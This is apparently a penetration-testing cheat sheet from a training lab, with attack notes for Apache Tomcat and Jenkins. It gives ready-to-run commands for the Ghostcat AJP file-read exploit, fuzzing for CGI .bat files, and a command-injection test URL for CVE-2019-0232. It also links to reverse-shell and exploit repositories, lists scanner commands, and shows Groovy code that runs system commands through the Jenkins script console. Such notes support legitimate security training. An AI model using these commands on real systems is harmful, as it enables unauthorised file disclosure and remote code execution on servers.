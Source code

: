 The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.

The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi).

```shell
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```

#### RCE CVE-2019-0232

Locate bat

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://10.129.201.89:8080/cgi/FUZZ.bat -ac
```

Test

```
http://localhost:8080/cgi/ism.bat?&dir
```

Reverse shell script https://github.com/jaiguptanick/CVE-2019-0232.git

Metasploit `windows/http/tomcat_cgi_cmdlineargs`

#### RCE CVE-2020-9484

```shell
nuclei -u target  -t CVE-2020-9484.yaml
```

### Scanning tools

```shell
sudo python3 -m pip install apachetomcatscanner
apachetomcatscanner -tt target_ip -tp port    --no-check-certificate
```

### Refrences
- [scan for Apache Tomcat](https://github.com/p0dalirius/ApacheTomcatScanner)
- [Apache Tomcat Example Scripts](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

## Jenkins

**Script Console**

The script console can be reached at the URL `http://jenkins.inlanefreight.local:8000/script`. This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) scripts, which are an object-oriented Java-compatible language. The language is similar to Python and Ruby. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

